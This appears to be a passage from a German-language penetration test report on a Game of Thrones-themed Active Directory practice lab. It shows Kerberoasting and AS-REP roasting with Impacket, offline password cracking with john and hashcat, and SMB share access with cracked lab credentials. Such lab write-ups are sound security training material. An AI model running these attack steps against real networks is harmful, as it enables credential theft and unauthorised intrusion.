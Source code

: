**Risiko:** Man-in-the-Middle-Angriffe möglich

---

## 4. Exploitation Phase

### 4.1 Kerberos-Angriffe

#### Kerberoasting
**Tool:** `GetUserSPNs.py` (Impacket)

**Gefundene Service Principal Names:**
```bash
$ GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt

ServicePrincipalName                                 Name         
---------------------------------------------------  -----------  
HTTP/eyrie.north.sevenkingdoms.local                 sansa.stark  
CIFS/thewall.north.sevenkingdoms.local               jon.snow     
HTTP/thewall.north.sevenkingdoms.local               jon.snow     
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc      
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc      
```

**Erfolgreicher Crack:**
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt
# Ergebnis: jon.snow:iknownothing
```

#### AS-REP Roasting
**Tool:** `GetNPUsers.py` (Impacket)

**Erfolgreicher Crack:**
```bash
$ hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
# Ergebnis: brandon.stark:iseedeadpeople
```

### 4.2 SMB-Exploitation

#### Erfolgreiche SMB-Logins
**Mit jon.snow:iknownothing:**
```bash
$ crackmapexec smb 192.168.20.11 -u jon.snow -p iknownothing
SMB    192.168.20.11   445    WINTERFELL       [+] north.sevenkingdoms.local\jon.snow:iknownothing
```

**NETLOGON/SYSVOL-Zugriff:**
```bash
$ smbclient //192.168.20.11/NETLOGON -U jon.snow
Password: iknownothing
# Downloads: script.ps1 (165 Bytes), secret.ps1 (869 Bytes)
```
